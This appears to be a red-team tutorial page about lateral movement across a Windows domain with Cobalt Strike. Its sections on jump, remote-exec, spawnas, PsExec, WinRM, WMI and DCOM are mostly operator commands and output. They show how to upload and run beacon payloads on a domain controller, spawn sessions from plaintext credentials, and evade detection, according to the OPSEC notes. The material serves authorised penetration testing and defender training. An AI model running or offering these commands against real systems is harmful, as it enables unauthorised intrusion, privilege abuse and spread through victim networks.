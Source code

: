 ```yaml
---
title: Lateral Movement
category: Red Team
order: 7
---
```


Moving laterally between computers in a domain is important for accessing sensitive information/materials, and obtaining new credentials. 

In this section we are goingto see how do a lateral movement with Cobalt Strike

# Execution commands

Cobalt Strike provides three strategies for executing Beacons, code or commands on remote targets.

To execute commands remotely we need admin privileges.

> **OPSEC Note**: A common way of testing local admin access on a target is to list the C$ directory.
>
>`beacon> ls \\dc01\c$`

## Jump 

`jump` command will spawn a beacon payload on the remote target, and if we use a P2P listener, will connect automatically.

Usage of `jump` command:
```
jump [method] [target] [listener]
```

We can use different methods:

```
beacon> jump

Beacon Remote Exploits
======================

    Exploit                   Arch  Description
    -------                   ----  -----------
    psexec                    x86   Use a service to run a Service EXE artifact
    psexec64                  x64   Use a service to run a Service EXE artifact
    psexec_psh                x86   Use a service to run a PowerShell one-liner
    winrm                     x86   Run a PowerShell script via WinRM
    winrm64                   x64   Run a PowerShell script via WinRM
```

## Remote-exec

`remote-exec` command will simply execute commands on a remote target.

hey require more manual work to manage the payload, but do offer a wider degree of control over what gets executed on the target. You also need to connect to P2P Beacons manually using `connect` or `link`.

```
beacon> remote-exec

Beacon Remote Execute Methods
=============================

    Methods                         Description
    -------                         -----------
    psexec                          Remote execute via Service Control Manager
    winrm                           Remote execute via WinRM (PowerShell)
    wmi                             Remote execute via WMI
```

## Powershell and execute-assembly

We can specify the target in `powershell` and `execute-assembly` commands.

```
baecon> execute-assembly /path/payload.exe -computername=dc01
```

```
baecon> powershell Get-ChildItem -computername=dc01
```

## Spawn


Notice that due to problems of **CoInitializeSecurity** COM object, a different security context for example another user can not be used in the same beacon process.

To that reason we need to spawn another beacon.

`spawn` and `spawnas` starts a new session with the provided credentials. 

```
beacon> spawn
```
The `spawnas` command will spawn a new process using plaintext credentials and will inject a beacon payload into it.

```
beacon> spawnas CORP\user Passw0rd! smb-p2p-payload
[+] established link to child beacon: 10.10.10.10
```

> **Note**: A common mistake is to attempt this from a directory where te user does not have read access. Change directory to `C:\` and try it again.

# PowerShell Remoting

The `winrm` and `winrm64` methods can be used to use powershell remoting.

WinRM will return a **high integrity beacon running as the user** with which are going to be interacted.

```
# 64-bit target
beacon> jump winrm64 dc01 [P2P-Listener]

# 32-bit target
beacon> jump winrm dc01 [P2P-Listener]
```

> **Note**: We can use `Get-WmiObject` to determine the arhitecture of the remote system.


# PsExec

The `psexec` and `psexec64` commands, first a service binary is uploaded to the target system, then a starting windows service is created to execute that binary.

`psexec_psh` doesn't copy the binary to the target, but instead executes a PowerShell one-liner (always in 32-bit).

PsExec will return a beacon running by **SYSTEM**.

```
beacon> jump psexec64 dc01 [p2p-listener]
```

# Windows Management Instrumentation (WMI)

The `wmi` `remote-exec` method uses WMI's *process call create* to execute any command we specify on the target.

The most straight forward means of using this to upload a payload to the target system and use WMI to execute it.

```
beacon> cd \\dc01\ADMIN$
beacon> upload C:\p2p-smb-beacon.exe
beacon> remote-exec wmi dc01 C:\Windows\beacon.exe
```

After executing the beacon we will neeed to connect to it.

```
beacon> link dc01 \\dc01\pipe\[namepipe]
```

# Distributed Component Object Model (DCOM)

Beacon has no built-in capabilities to interact over DCOM, so we can use `Invoke-DCOM`.

* [https://github.com/EmpireProject/Empire/blob/master/data/module_source/lateral_movement/Invoke-DCOM.ps1](https://github.com/EmpireProject/Empire/blob/master/data/module_source/lateral_movement/Invoke-DCOM.ps1)


```
beacon> powershell-import .\Invoke-DCOM.ps1
beacon> powershell Invoke-DCOM -ComputerName dc01 -Method MMC20.Application -Command C:\Windows\beacon-smb.exe
beacon> link dc01
```

> **OPSEC Note**: `DCOM` is more complicated to detect, since each method works in a different way. If `MMC20.Application` method spawns a process, the spawned process will be a child of `mmc.exe`.
>
> `ProcessId: 952`
> `Image: C:\Windows\beacon-smb.exe`
> `ParentImage: C:\Windows\System32\mmc.exe`